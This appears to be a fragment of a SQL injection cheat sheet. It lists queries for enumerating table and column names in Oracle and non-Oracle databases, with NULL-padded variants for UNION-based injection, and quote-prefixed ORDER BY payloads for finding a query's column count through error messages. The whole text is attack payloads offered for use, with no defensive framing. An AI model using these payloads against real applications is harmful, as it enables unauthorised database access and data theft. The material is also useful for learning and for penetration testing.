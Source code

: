 <hr>

> get all columns in non oracle:
>
> > Show all column informations
> >
> >     SELECT * FROM information_schema.columns WHERE table_name='table_name_value'
> 
> > Show only column name
> >
> >     SELECT COLUMN_NAME FROM information_schema.columns WHERE table_name='table_name_value'
> 
> > In the case when the original query two column
> >
> >     SELECT COLUMN_NAME,NULL FROM information_schema.columns WHERE table_name='table_name_value'

<hr>

> get all tables in oracle:
>
> > Show all table informations
> >
> >     SELECT * FROM ALL_TABLES
> 
> > Show only table names
> >
> >     SELECT TABLE_NAME FROM ALL_TABLES
> 
> > In the case when the original query two column
> >
> >     SELECT TABLE_NAME,NULL FROM ALL_TABLES

<hr>

> get all columns in oracle:
>
> > show all column informations
> >
> >     SELECT * FROM ALL_TAB_COLUMNS WHERE table_name='table_name_value'
> 
> > Show only column name
> >
> >     SELECT COLUMN_NAME FROM ALL_TAB_COLUMNS WHERE table_name='table_name_value'
> 
> > In the case when the original query two column
> >
> >     SELECT COLUMN_NAME,NULL FROM ALL_TAB_COLUMNS WHERE table_name='table_name_value'

<hr>

> using ORDER by to check columns number:
>
> >     ' ORDER BY 1--
>
> >     ' ORDER BY 2--
>
> >     ' ORDER BY 3--
>
> *check with the errors returned*
> 
> example of error returned:
> > The ORDER BY position number 3 is out of range of the number of items in the select list.
